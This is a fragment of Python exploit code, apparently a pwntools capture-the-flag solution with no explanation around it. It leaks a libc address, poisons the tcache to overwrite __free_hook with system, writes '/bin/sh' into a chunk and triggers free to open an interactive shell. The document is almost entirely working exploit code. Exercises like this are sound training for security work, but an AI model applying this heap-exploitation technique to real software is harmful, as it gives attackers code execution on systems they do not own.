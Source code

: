``` py
# get libc leak
leak = u64(r.recvline().strip().ljust(8, b"\x00"))
libc.address = leak - libc.sym.printf
libcbase()
#tcache poison to get RCE by overwriting the free hook
alloc(0x98)
free()
write_data(b"A")
free()
write_data(p64(libc.sym.__free_hook)+p64(0)) #ret address
alloc(0x98)
alloc(0x98)
write_data(p64(libc.sym.system))
alloc(0x18)
write_data(b"/bin/sh\0")
sleep(0.2)
# call free_hook
sl(b"4")
#========= interactive ====================
r.interactive()
```




